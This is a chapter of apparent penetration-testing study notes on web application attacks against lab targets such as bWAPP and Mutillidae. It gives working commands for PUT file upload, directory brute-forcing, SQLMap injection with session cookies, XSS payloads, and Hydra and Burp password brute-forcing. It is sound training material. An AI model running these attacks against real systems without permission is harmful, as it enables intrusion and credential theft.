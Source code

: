 # 12. Web application

### Introduction

* A website is juste files on a server with HTML, CSS and JavaScript.
* The webservers are Apache, TomCat, Nginx, Microsoft IIS.
* The Off-premise hosting are Amazon web services, WordPress, Firebase, Microsoft Azure, DigitalOcean, Cloudflare, INE etc.

### HTTP method enumeration

```bash
kali@kali> curl -X OPTIONS 192.202.65.3 -v
kali@kali> curl -X GET 192.202.65.3
kali@kali> curl -X HEAD 192.202.65.3
kali@kali> curl -X PUT 192.202.65.3  # method not allowed

kali@kali> curl -X OPTIONS 192.202.65.3/login.php -v
kali@kali> curl -X POST 192.202.65.3/login.php
kali@kali> curl -X POST 192.202.65.3/login.php -d "name=john&password=password" -v

kali@kali> curl -X OPTIONS 192.202.65.3/uploads/ -v
# OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND
# PROPPATCH,COPY,MOVE,LOCK,UNLOCK
kali@kali> echo "Hello World!" > hello.txt
kali@kali> curl 192.202.65.3/uploads/ --upload-file hello.txt
```

It uploads a file onto the web server because the PUT is allowed.

### Gobuster

```bash
kali@kali> gobuster dir -u http://192.193.74.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404
kali@kali> gobuster dir -u http://192.193.74.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r
kali@kali> gobuster dir -u http://192.193.74.3/data -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r
kali@kali> curl http://192.193.74.3/data/account.xml
```

### BurpSuite directory enumeration

Start Burp Suite and capture the packet from http://192.168.23.3.

Then move the request to the intruder and add the wordlist `/usr/share/wordlists/dirb/common.txt` and **attack**.

### ZAProxy

### Nikto

```bash
kali@kali> nikto http://192.19.125.3
```

### SQLMap

* Connect to bwap with credentials `bee:bug`.
* Grab the cookie by inspecting the GET request for http://192.222.140.3/portal.php (bd8t5qipab8p64f85oitd9f5f5)
* Go to http://192.222.140.3/sqli\_1.php and enter something in the form to research in the database. The url will be http://192.222.140.3/sqli\_1.php?title=john\&action=search.

```bash
kali@kali> sqlmap -u 'http://192.222.140.3/sqli_1.php?title=john&action=search' --cookie 'PHPSESSID=bd8t5qipab8p64f85oitd9f5f5; security_level=0' -p title
kali@kali> sqlmap -u 'http://192.222.140.3/sqli_1.php?title=john&action=search' --cookie 'PHPSESSID=bd8t5qipab8p64f85oitd9f5f5; security_level=0' -p title --dbs
kali@kali> sqlmap -u 'http://192.222.140.3/sqli_1.php?title=john&action=search' --cookie 'PHPSESSID=bd8t5qipab8p64f85oitd9f5f5; security_level=0' -p title -D bWAPP tables
```

The parameter **title** is vulnerable and the payload are displayed.

For the POST request, store the request in a file `request` then execute the next command.

```bash
kali@kali> sqlmap -r request -t title
```

### XSSer

* Go to http://192.69.131.3/index.php?page=dns-lookup.php.
* Turn on BurpSuite.
* Capture the packet.

```bash
kali@kali> xsser --url http://192.69.131.3/index.php?page=dns-lookup.php -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

```bash
kali@kali> xsser --url http://192.69.131.3/index.php?page=dns-lookup.php -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp '<script>alert(1)</script>'
```

Copy/paste the **Final attack** to BurpSuite then run and you will have a JavaScript alert.

### Authenticated XSSer

```bash
kali@kali> xsser --url 'http://192.194.74.3/htmli_get.php?firstname=XSS&lastname=doe&form=submit' --cookie 'PHPSESSID=83rlkqf374baia021e64usk9e2; security_level=0'
kali@kali> xsser --url 'http://192.194.74.3/htmli_get.php?firstname=XSS&lastname=doe&form=submit' --cookie 'PHPSESSID=83rlkqf374baia021e64usk9e2; security_level=0' --Fp '<script>alert(0)</script>'
```

### HTTP Login form with Hydra

```bash
kali@kali> hydra -L users -P passwords 192.107.115.3 http-post-form '/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!'
```

### Basic auth BurpSuite

* Go to http://192.89.33.3/basic and you will need to authenticate by a form.
* Open BurpSuite and catch the form request.

The `Authorization` is base64 encoded.

* Add a wordlist `/root/desktop/wordlists/common_password.txt`
* Add 2 rules
  * Prefix `admin:` (we suppose that we know the username)
  * Encode in `base64`

After running the attack, we can see a status code 301, try to base64 decode it and you get credentials `admin:cookie1`. If you try these in the form, you get redirected to the flag page.
